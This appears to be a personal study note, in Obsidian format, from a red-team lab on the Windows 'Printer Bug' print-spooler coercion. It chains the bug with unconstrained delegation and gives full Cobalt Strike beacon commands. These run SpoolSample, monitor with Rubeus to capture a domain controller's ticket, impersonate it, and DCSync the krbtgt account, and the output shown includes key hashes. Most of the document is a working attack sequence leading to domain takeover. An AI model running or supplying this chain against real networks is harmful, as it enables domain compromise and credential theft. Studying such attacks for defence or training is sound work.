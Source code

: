 ```yaml
---
creation date: September 24th 2022
last modified date: September 24th 2022
aliases: []
tags: #📕
---
```


Primary Categories: { Add link(s) [[]] back to related PRIMARY categories }
Secondary Categories:  { Add link(s) [[]] back to related SECONDARY categories }
Links: {Add link(s) [[]] to related terms}
Search Tag: #📕  

# [[Printer Bug]]  
___

## Description:  

To coerce any machine in a forest to authenticate to another machine in the forest.

This RPC service is accessible by all domain users, is enabled by default since Windows 8 and won't be fixed by Microsoft since it's "by design".

The proof-of-concept code is [here](https://github.com/leechristensen/SpoolSample)

```
beacon> execute-assembly C:\Tools\SpoolSample\SpoolSample\bin\Debug\SpoolSample.exe dc-2 srv-1

[+] Converted DLL to shellcode
[+] Executing RDI
[+] Calling exported function

```


This can be used best with [[Unconstrained Delegation]]

If _Machine B_ is configured with unconstrained delegation, this would allow us to capture the TGT of _Machine A_. With a TGT for _Machine A_, we can craft service tickets to access any service on _Machine A_ as a local administrator. And of course if _Machine A_ is a domain controller, we will gain Domain Admin level privilege.

On machine A
```
beacon> execute-assembly C:\Tools\Rubeus\Rubeus\bin\Debug\Rubeus.exe monitor /targetuser:DC-2$ /interval:10 /nowrap

[*] Action: TGT Monitoring
[*] Target user     : DC-2$
[*] Monitoring every 10 seconds for new TGTs
```

On any machine running in the domain:
```
beacon> execute-assembly C:\Tools\SpoolSample\SpoolSample\bin\Debug\SpoolSample.exe machine-2 machine-a

[+] Converted DLL to shellcode
[+] Executing RDI
[+] Calling exported function
```

-   `dc-2` is the "target" server
    
-   `srv-1` is the "capture" server

You should get this output on Machine A:

```
[*] 3/9/2021 12:00:07 PM UTC - Found new TGT:

  User                  :  DC-2$@DEV.CYBERBOTIC.IO
  StartTime             :  3/9/2021 10:27:15 AM
  EndTime               :  3/9/2021 8:27:13 PM
  RenewTill             :  1/1/1970 12:00:00 AM
  Flags                 :  name_canonicalize, pre_authent, forwarded, forwardable
  Base64EncodedTicket   :

    doIFLz [...snip...] MuSU8=

[*] Ticket cache size: 1

```

Now impersonate that user

```
beacon> make_token DEV\DC-2$ FakePass
[+] Impersonated DEV\bfarmer

beacon> kerberos_ticket_use C:\Users\Administrator\Desktop\dc-2.kirbi

beacon> dcsync dev.cyberbotic.io DEV\krbtgt
[DC] 'dev.cyberbotic.io' will be the domain
[DC] 'dc-2.dev.cyberbotic.io' will be the DC server
[DC] 'DEV\krbtgt' will be the user account

* Primary:Kerberos-Newer-Keys *
    Default Salt : DEV.CYBERBOTIC.IOkrbtgt
    Default Iterations : 4096
    Credentials
      aes256_hmac       (4096) : 390b2fdb13cc820d73ecf2dadddd4c9d76425d4c2156b89ac551efb9d591a8aa
      aes128_hmac       (4096) : 473a92cc46d09d3f9984157f7dbc7822
      des_cbc_md5       (4096) : b9fefed6da865732
```


___

## Resources:

| Hyperlink | Info |
| --------- | ---- |


Created Date: September 24th 2022 (12:02 pm)  
Last Modified Date: <%+tp.file.last_modified_date("MMMM Do YYYY (hh:ss a)")%>
